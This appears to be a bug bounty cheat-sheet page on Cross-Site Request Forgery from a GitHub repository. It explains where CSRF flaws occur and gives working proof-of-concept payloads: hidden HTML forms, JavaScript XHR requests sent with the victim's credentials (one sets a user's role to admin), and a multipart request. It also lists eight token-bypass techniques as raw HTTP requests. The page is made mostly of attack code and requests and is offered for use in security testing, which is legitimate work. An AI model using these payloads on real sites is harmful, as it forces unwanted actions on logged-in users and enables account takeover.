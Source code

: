 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Request%20Forgery.md#introduction)

Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Request%20Forgery.md#where-to-find)

Usually found in forms. Try submit the form and check the HTTP request. If the HTTP request does not have a CSRF token then it is likely to be vulnerable to a CSRF attack.

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Request%20Forgery.md#how-to-exploit)

1. HTML GET Method

```html
<a href="http://www.example.com/api/setusername?username=uname">Click Me</a>
```

2. HTML POST Method

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="uname" />
 <input type="submit" value="Submit Request" />
</form>
```

3. JSON GET Method

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

4. JSON POST Method

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

5. Multipart request

```html
<head>
    <title>Multipart CSRF PoC</title>
</head>
<body>
<br>
<hr>
<h2>Click Submit request</h2><br>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://example/api/users", true);
        xhr.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart/form-data; boundary=---------------------------149631704917378");
        xhr.withCredentials = true;
        var body = "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"action\"\r\n" + 
          "\r\n" + 
          "update\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"user_id\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"uname\"\r\n" + 
          "\r\n" + 
          "daffainfo\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"first_name\"\r\n" + 
          "\r\n" + 
          "m\r\n" + 
          "-----------------------------149631704917378\r\n" + 
          "Content-Disposition: form-data; name=\"last_name\"\r\n" + 
          "\r\n" + 
          "daffa\r\n" + 
          "-----------------------------149631704917378--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
	<form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
<br>
</body>
```

# Bypass CSRF Token

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Request%20Forgery.md#bypass-csrf-token)

But in some cases, even though there is a CSRF token on the form on the website. CSRF tokens can still be bypassed by doing a few things:

1. Change single character

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```

Try this to bypass

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaab
```

2. Sending empty value of token

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```

Try this to bypass

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=
```

3. Replace the token with same length

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaa
```

Try this to bypass

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaabaa
```

4. Changing POST / GET method

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```

Try this to bypass

```
GET /register?username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: target.com
...
```

5. Remove the token from request

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```

Try this to bypass

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456
```

6. Use another user's valid token

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=ANOTHER_VALID_TOKEN
```

7. Try to decrypt hash

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=MTIzNDU2
```

MTIzNDU2 => 123456 with base64

8. Sometimes anti-CSRF token is composed by 2 parts, one of them remains static while the others one dynamic

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=vi802jg9f8akd9j123
```

When we register again, the request like this

```
POST /register HTTP/1.1
Host: target.com
...

username=dapos&password=123456&token=vi802jg9f8akd9j124
```

If you notice "vi802jg9f8akd9j" part of the token remain same, you just need to send with only static part

